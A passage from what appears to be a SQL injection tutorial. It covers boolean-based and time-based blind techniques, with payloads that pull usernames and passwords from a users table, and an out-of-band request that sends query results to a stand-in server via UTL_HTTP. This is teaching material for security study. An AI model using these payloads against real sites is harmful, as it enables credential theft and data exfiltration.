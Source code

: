     Repeating this process three times will enable you to discover the columns' id, username and password. Which now you can use to query the **users** table for login credentials. First, you'll need to discover a valid username, which you can use the payload below:
    `admin123' UNION SELECT 1,2,3 from users where username like 'a%`
    
    Once you've cycled through all the characters, you will confirm the existence of the username **admin**. Now you've got the username. You can concentrate on discovering the password. The payload below shows you how to find the password:
    `admin123' UNION SELECT 1,2,3 from users where username='admin' and password like 'a%`
    
    Cycling through all the characters, you'll discover the password.
<br>

- ## Time-Based
  
    A time-based blind SQL injection is very similar to the above boolean-based one in that the same requests are sent, but there is no visual indicator of your queries being wrong or right this time. Instead, your indicator of a correct query is based on the time the query takes to complete. This time delay is introduced using built-in methods such as **SLEEP(x)** alongside the UNION statement. The SLEEP() method will only ever get executed upon a successful UNION SELECT statement.
    
    So, for example, when trying to establish the number of columns in a table, you would use the following query:
    `admin123' UNION SELECT SLEEP(5);--`
    
    If there was no pause in the response time, we know that the query was unsuccessful, so like on previous tasks, we add another column:
    `admin123' UNION SELECT SLEEP(5),2;--`
    
    This payload should have produced a 5-second delay, confirming the successful execution of the UNION statement and that there are two columns. You can now repeat the enumeration process from the Boolean-based SQL injection, adding the SLEEP() method to the **UNION SELECT** statement.
    
    If you're struggling to find the table name, the below query should help you on your way:
    `referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--`
<br>
<br>

# 3. Out-of-band SQL Injection
This technique is very useful when the tester find a Blind SQL Injection situation, in which nothing is known on the outcome of an operation. The technique consists of the use of DBMS functions to perform an out of band connection and deliver the results of the injected query as part of the request to the tester’s server. Like the error based techniques, each DBMS has its own functions. Check for specific DBMS section.
   
### Practical:
   
   Consider the following SQL query:
   `SELECT * FROM products WHERE id_product=$id_product`
   
   Consider also the request to a script who executes the query above:
   `http://www.example.com/product.php?id=10`
   
   The malicious request would be:
   `http://www.example.com/product.php?id=10||UTL_HTTP.request(‘testerserver.com:80’||(SELECT user FROM DUAL)--`
   